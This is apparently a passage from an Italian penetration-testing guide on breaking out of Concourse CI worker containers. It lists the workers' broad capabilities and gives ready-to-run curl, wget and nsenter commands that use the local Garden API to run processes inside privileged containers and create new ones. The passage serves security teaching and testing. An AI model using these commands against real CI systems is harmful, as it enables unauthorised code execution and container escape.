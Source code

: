 I worker di Concourse vengono eseguiti con privilegi elevati sui container:
```
Container Runtime: docker
Has Namespaces:
pid: true
user: false
AppArmor Profile: kernel
Capabilities:
BOUNDING -> chown dac_override dac_read_search fowner fsetid kill setgid setuid setpcap linux_immutable net_bind_service net_broadcast net_admin net_raw ipc_lock ipc_owner sys_module sys_rawio sys_chroot sys_ptrace sys_pacct sys_admin sys_boot sys_nice sys_resource sys_time sys_tty_config mknod lease audit_write audit_control setfcap mac_override mac_admin syslog wake_alarm block_suspend audit_read
Seccomp: disabled
```
Tuttavia, tecniche come **mounting** del dispositivo /dev del nodo o release_agent **non funzioneranno** (poiché il vero dispositivo con il filesystem del nodo non è accessibile, solo uno virtuale). Non possiamo accedere ai processi del nodo, quindi fuggire dal nodo senza exploit del kernel diventa complicato.

> [!NOTE]
> Nella sezione precedente abbiamo visto come fuggire da un contenitore privilegiato, quindi se possiamo **eseguire** comandi in un **contenitore privilegiato** creato dal **lavoratore** **corrente**, potremmo **fuggire al nodo**.

Nota che giocando con concourse ho notato che quando un nuovo contenitore viene generato per eseguire qualcosa, i processi del contenitore sono accessibili dal contenitore del lavoratore, quindi è come se un contenitore creasse un nuovo contenitore al suo interno.

**Entrare in un contenitore privilegiato in esecuzione**
```bash
# Get current container
curl 127.0.0.1:7777/containers
{"Handles":["ac793559-7f53-4efc-6591-0171a0391e53","c6cae8fc-47ed-4eab-6b2e-f3bbe8880690"]}

# Get container info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/properties

# Execute a new process inside a container
## In this case "sleep 20000" will be executed in the container with handler ac793559-7f53-4efc-6591-0171a0391e53
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
--header='Content-Type:application/json' \
'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'

# OR instead of doing all of that, you could just get into the ns of the process of the privileged container
nsenter --target 76011 --mount --uts --ipc --net --pid -- sh
```
**Creazione di un nuovo container privilegiato**

Puoi creare molto facilmente un nuovo container (basta eseguire un UID casuale) ed eseguire qualcosa su di esso:
```bash
curl -X POST http://127.0.0.1:7777/containers \
-H 'Content-Type: application/json' \
-d '{"handle":"123ae8fc-47ed-4eab-6b2e-123458880690","rootfs":"raw:///concourse-work-dir/volumes/live/ec172ffd-31b8-419c-4ab6-89504de17196/volume","image":{},"bind_mounts":[{"src_path":"/concourse-work-dir/volumes/live/9f367605-c9f0-405b-7756-9c113eba11f1/volume","dst_path":"/scratch","mode":1}],"properties":{"user":""},"env":["BUILD_ID=28","BUILD_NAME=24","BUILD_TEAM_ID=1","BUILD_TEAM_NAME=main","ATC_EXTERNAL_URL=http://127.0.0.1:8080"],"limits":{"bandwidth_limits":{},"cpu_limits":{},"disk_limits":{},"memory_limits":{},"pid_limits":{}}}'

# Wget will be stucked there as long as the process is being executed
```